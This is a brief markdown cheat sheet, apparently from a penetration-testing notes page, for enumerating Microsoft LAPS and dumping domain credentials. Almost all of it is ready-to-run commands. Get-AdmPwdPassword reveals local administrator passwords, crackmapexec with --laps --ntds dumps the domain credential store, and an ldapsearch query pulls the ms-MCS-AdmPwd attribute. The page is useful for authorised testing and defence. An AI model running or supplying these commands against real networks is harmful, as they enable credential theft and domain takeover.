 # ENUMERATION

#### dir ("C:\Program\LAPS\CSE"

### If admpwd.dll exists, then enumeration is successful.

#### 1) Get-Command *Admpwd*

#### 2) Find-AdmPwdExtendedRights -Identity *

#### 3) net groups "GROUP_THAT_HAS_ACCESS_TO_LAPS"

#### 4) Get-AdmPwdPassword -ComputerName PC_THAT_HAS_LAPS_ENABLED

## Possible tools: LAPSToolkit, Crackmapexec, ldapsearch

### If a user has access to view the LAPS password, we can use crackmapexec or ldapsearch to dump password:

#### crackmapexec smb IP_ADDRESS -u USER -p PASSWORD --laps --ntds

#### ldapsearch -h IP_ADDRESS -b 'DC=DOMAIN,DC=LOCAL' -x -D USER@DOMAIN.LOCAL -w 'PASSWORD' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
